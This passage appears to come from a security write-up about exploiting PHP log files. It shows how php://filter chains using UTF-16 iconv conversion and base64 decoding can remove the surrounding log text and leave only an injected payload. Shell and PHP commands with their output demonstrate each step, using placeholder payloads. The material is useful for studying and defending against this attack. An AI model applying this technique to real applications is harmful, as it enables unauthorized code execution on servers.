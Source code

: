 Depending on the date, when the prefix is ​​decoded twice, you will get results of different sizes. 

In order for it to work properly, we must create a new payload for each target, because the stack trace contains the absolute file name; and, every second, a new payload needs to be created because the prefix contains time. 

So, we go back to the PHP documentation to look for other types of filters.

```plain
[previous log entries]
[prefix]PAYLOAD[midfix]PAYLOAD[suffix]
```

Unfortunately, we have learned that if base64-decode is abused, it may fail at some point. 

```plain
[prefix]PAYLOAD[midfix]PAYLOAD[suffix]
```

Now, we're back to the original question: keep a payload and delete the rest. 

```php
echo -ne '[Some prefix ]P\0A\0Y\0L\0O\0A\0D\0[midfix]P\0A\0Y\0L\0O\0A\0D\0[Some suffix ]' > /tmp/test.txt
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8/resource=/tmp/test.txt');
卛浯⁥牰晥硩崠PAYLOAD浛摩楦嵸PAYLOAD卛浯⁥畳晦硩崠
```

Our payload is still there, safe, except that the prefix and suffix have become non-ASCII characters. 

Since each UTF-16 character takes up two bytes, we can make it unaligned by adding one byte to the end of the second instance of PAYLOAD:

```shell
echo -ne '[Some prefix ]P\0A\0Y\0L\0O\0A\0D\0X[midfix]P\0A\0Y\0L\0O\0A\0D\0X[Some suffix ]' > /tmp/test.txt
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8/resource=/tmp/test.txt');
卛浯⁥牰晥硩崠PAYLOAD存業晤硩偝䄀夀䰀伀䄀䐀堀卛浯⁥畳晦硩崠
```

The advantage of this is that the alignment of the prefixes is no longer important: if the prefixes are of equal size, the first payload will be correctly decoded; otherwise, the second payload will be correctly decoded.

If you combine the above findings with the previous base64-decoding, you can encode whatever we want:

```php
$ echo -n TEST! | base64 | sed -E 's/./\0\\0/g'
V\0E\0V\0T\0V\0C\0E\0=\0
$ echo -ne '[Some prefix ]V\0E\0V\0T\0V\0C\0E\0=\0X[midfix]V\0E\0V\0T\0V\0C\0E\0=\0X[Some suffix ]' > /tmp/test.txt
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8|convert.base64-decode/resource=/tmp/test.txt');
TEST!
```
